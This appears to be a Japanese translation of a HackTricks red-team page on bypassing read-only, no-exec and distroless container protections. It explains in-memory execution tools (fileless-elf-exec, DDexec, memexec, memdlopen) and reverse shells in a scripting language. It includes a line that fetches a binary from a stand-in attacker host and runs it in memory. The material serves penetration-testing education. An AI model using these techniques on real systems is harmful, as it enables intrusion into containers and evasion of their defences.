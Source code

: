 # ファイルシステム保護のバイパス：読み取り専用 / 実行不可 / Distroless

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい場合は**[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter**で**@hacktricks\_live**をフォローする
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、**あなたのハッキングテクニックを共有**してください。

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味がある方や、**解読不能なものをハック**したい方 - **採用中です！**（_流暢なポーランド語の読み書きが必要です_）。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及されているテクニックについて、より詳しく説明されています：

* [**DEF CON 31 - ステルスおよび回避のためのLinuxメモリ操作の探索**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngおよびインメモリdlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / 実行不可シナリオ

**Linuxマシンが**特にコンテナ内で**読み取り専用（ro）ファイルシステム保護**でマウントされることがますます一般的になっています。これは、`securitycontext`で**`readOnlyRootFilesystem: true`**を設定するだけで、roファイルシステムでコンテナを実行するのが簡単であるためです：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能のままであるため、ディスクに書き込むことができないというのは偽物です。ただし、このフォルダは**実行不可保護**でマウントされるため、ここにバイナリをダウンロードしても**実行できません**。

{% hint style="warning" %}
レッドチームの観点からすると、これは**バイナリをダウンロードして実行するのが複雑**になります（バックドアや`kubectl`のような既存のシステムにないバイナリ）。
{% endhint %}

## 最も簡単なバイパス：スクリプト

バイナリを言及しましたが、インタプリタがマシン内にある限り、**シェルスクリプト**（`sh`が存在する場合）や**Pythonスクリプト**（`python`がインストールされている場合）など、**任意のスクリプトを実行**できます。

ただし、これだけでは、バイナリバックドアや実行する必要がある他のバイナリツールを実行するのに十分ではありません。

## メモリバイパス

ファイルシステムがそれを許可していない場合にバイナリを実行したい場合、**メモリから実行**するのが最善です。なぜなら、**その保護はそこには適用されない**からです。

### FD + execシスコールバイパス

**Python**、**Perl**、または**Ruby**などの強力なスクリプトエンジンがマシン内にある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタに保存し（`create_memfd`シスコール）、これらの保護によって保護されないため、**fdをファイルとして実行する**という**`exec`シスコール**を呼び出すことができます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、バイナリが**デコードおよび解凍された**スクリプトが生成され、`create_memfd`シスコールを呼び出して作成された**fd**にバイナリを格納し、**実行するためのexec**シスコールが呼び出されます。

{% hint style="warning" %}
これは、PHPやNodeなどの他のスクリプト言語では**スクリプトから生のシスコールを呼び出すデフォルトの方法**がないため、`create_memfd`を呼び出して**バイナリを格納するメモリfd**を作成することができないため、これは機能しません。

さらに、`/dev/shm`内のファイルで**通常のfd**を作成しても機能しないため、**実行不可保護**が適用されるため実行できません。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、**`/proc/self/mem`**を上書きすることで、**自分自身のプロセスのメモリを変更**する技術であります。

したがって、プロセスによって実行されている**アセンブリコードを制御**することで、**シェルコード**を書き込み、プロセスを**任意のコードを実行**するように「変異」させることができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**自分自身のメモリから**自分自身の**シェルコード**または**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)はDDexecの自然な次のステップです。これは**DDexecシェルコードをデーモン化**したもので、異なるバイナリを実行したいときには、DDexecを再起動する必要はありません。代わりに、DDexec技術を使用してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリをロードして実行**できます。

**memexecを使用してPHPリバースシェルからバイナリを実行する例**は[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、後で実行するためにメモリにバイナリをロードする**簡単な方法**を提供します。これにより、依存関係を持つバイナリをロードすることさえ可能になります。

## Distroless Bypass

### Distrolessとは

Distrolessコンテナには、ライブラリやランタイム依存関係など、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**だけが含まれており、パッケージマネージャーやシェル、システムユーティリティなどのより大きなコンポーネントは除外されています。

Distrolessコンテナの目標は、**不要なコンポーネントを排除**し、悪用される可能性のある脆弱性の数を最小限に抑えることによって、コンテナの攻撃面を**縮小**することです。

### リバースシェル

Distrolessコンテナでは、通常のシェルを取得するための`sh`や`bash`などが**見つからない**かもしれません。`ls`、`whoami`、`id`などのバイナリも見つけることはできません...通常システムで実行するすべてのものです。

{% hint style="warning" %}
したがって、通常どおりに**リバースシェル**を取得したり、システムを**列挙**することはできません。
{% endhint %}

ただし、侵害されたコンテナが例えばflask webを実行している場合、Pythonがインストールされているため、**Pythonリバースシェル**を取得できます。Nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用してシステムを**列挙**することができます。
{% endhint %}

**`read-only/no-exec`**の保護がない場合、リバースシェルを悪用してファイルシステムに**バイナリを書き込み**、それらを**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらをバイパス**することができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語のリバースシェルを取得**し、[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)でメモリからバイナリを実行する方法の**例**を見つけることができます。
